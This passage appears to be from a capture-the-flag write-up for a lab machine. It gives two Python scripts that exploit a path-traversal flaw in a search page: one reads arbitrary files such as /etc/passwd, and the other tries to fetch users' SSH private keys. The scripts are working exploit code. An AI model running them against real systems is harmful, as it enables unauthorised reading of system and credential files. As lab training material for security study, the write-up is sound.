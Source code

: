 ```python
#!/usr/bin/env python3

import requests
import sys

url = "http://10.0.2.254/search1.php?me=../../.."

file_to_get = sys.argv[1]

r = requests.get(url + file_to_get)

if len(r.text) != 2203:
    print(r.text)
```

After making the script you have to make it a executable like so

```bash
chmod +x exploit.py
```

Now I can run the script from the command line like this

# python script command

```bash
./exploit.py /etc/passwd
```

I also made another python script to see if I could get any ssh keys from all the users but didn't find anything

Here is the script if you are interested 

# python script

```python
#!/usr/bin/env python3

import requests

url = "http://10.0.2.254/search1.php?me=../../../"

users = [
	'hacksudo',
	'monali',
	'john',
	'search'
]

for user in users:
	r = requests.get(url + "home/" + user + "/.ssh/id_rsa")
	if len(r.text) != 2203:
		print(r.text)

```
